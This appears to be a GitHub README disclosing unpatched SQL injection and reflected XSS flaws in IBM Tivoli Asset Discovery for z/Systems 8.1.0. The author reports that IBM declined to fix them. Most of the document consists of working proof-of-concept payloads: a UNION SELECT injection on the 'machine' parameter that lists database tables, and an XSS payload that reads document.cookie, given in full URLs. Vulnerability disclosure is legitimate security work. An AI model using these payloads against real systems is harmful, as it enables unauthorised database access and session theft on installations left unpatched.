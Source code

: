 # IBMZseriesHacks


I responsibly disclosed these issues to IBM on hackerOne, but unfortunately their answer indicated they are not going to fix them. 

### SQL Injection on Tivoli Asset Discovery for z/Systems version 8.1.0:
I discovered that the many pages of IBM Tivoli Asset Discovery are vulnerable to SQL injection.
<br>
POC on 'lpar_resources' page:
<br>
<br>
Detection:
```
http://example.com/asset/lpar_resources?monthfrom=&monthto=&machine=x%2527)%253B+--&repository=repo&outfmt=
```
Payload on the 'machine' parameter:
```
x') union select 0,creator,dbname,name,'0','0','0','0','0','0','0','0','0','0','0','0','0','0','0','2018-08-01','0' from sysibm.systables; --
```

### Reflected XSS on Tivoli Asset Discovery for z/Systems version 8.1.0:
Like the SQL Injection, this occurs on many pages and many parameters in the application.
<br>
A POC on 'lpar_resources' page:
<br>
<br>
Payload:
```
%22%3Cimg src=1+onerror=alert(document.cookie)%3E
```
In the full URL:
```
http://example.com/disc/product_library_usage?monthfrom=&monthto=&system=&vendor=&prodrel=&repository=repo&outfmt=&library=2%22%3Cimg+src=1+onerror=alert(document.cookie)%3E&library_casei=&volume=&showoption=off&exclunknown=off&outlimit=1000
```
